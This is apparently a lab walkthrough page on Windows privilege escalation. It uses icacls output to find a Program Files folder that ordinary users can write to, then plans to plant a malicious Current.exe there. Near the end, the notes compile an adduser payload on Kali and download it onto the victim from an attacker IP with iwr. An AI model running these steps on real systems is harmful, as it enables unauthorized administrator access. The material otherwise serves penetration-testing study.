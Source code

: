 # Lets check our access rights in these paths with icacls
PS C:\Users\steve> icacls "C:\"
C:\ BUILTIN\Administrators:(OI)(CI)(F)
    NT AUTHORITY\SYSTEM:(OI)(CI)(F)
    BUILTIN\Users:(OI)(CI)(RX)
    NT AUTHORITY\Authenticated Users:(OI)(CI)(IO)(M)
    NT AUTHORITY\Authenticated Users:(AD)
    Mandatory Label\High Mandatory Level:(OI)(NP)(IO)(NW)

PS C:\> icacls "C:\Program Files"
C:\Program Files NT SERVICE\TrustedInstaller:(F)
                 NT SERVICE\TrustedInstaller:(CI)(IO)(F)
                 NT AUTHORITY\SYSTEM:(M)
                 NT AUTHORITY\SYSTEM:(OI)(CI)(IO)(F)
                 BUILTIN\Administrators:(M)
                 BUILTIN\Administrators:(OI)(CI)(IO)(F)
                 BUILTIN\Users:(RX)
                 BUILTIN\Users:(OI)(CI)(IO)(GR,GE)
                 CREATOR OWNER:(OI)(CI)(IO)(F)
                 APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(RX)
                 APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(OI)(CI)(IO)(GR,GE)
                 APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(RX)
                 APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(OI)(CI)(IO)(GR,GE)

PS C:\> icacls "C:\Program Files\Enterprise Apps"
C:\Program Files\Enterprise Apps NT SERVICE\TrustedInstaller:(CI)(F)
                                 NT AUTHORITY\SYSTEM:(OI)(CI)(F)
                                 BUILTIN\Administrators:(OI)(CI)(F)
                                 BUILTIN\Users:(OI)(CI)(RX,W)
                                 CREATOR OWNER:(OI)(CI)(IO)(F)
                                 APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(OI)(CI)(RX)
                                 APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(OI)(CI)(RX)

# Where Enterprise Apps file shows that builtin users can perform write actions
# Our goal is now to place a malicious file named Current.exe in C:\Program Files\Enterprise Apps\.

# Go back to Kali OS to create a payload 
Refer to adduser.c
nano adduser.c
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
chmod 777 adduser.exe

# On the Victim machine 
cd 'C:\Program Files\Enterprise Apps\'
PS C:\Program Files\Enterprise Apps> iwr -uri http://192.168.45.178/adduser.exe -Outfile Current.exe
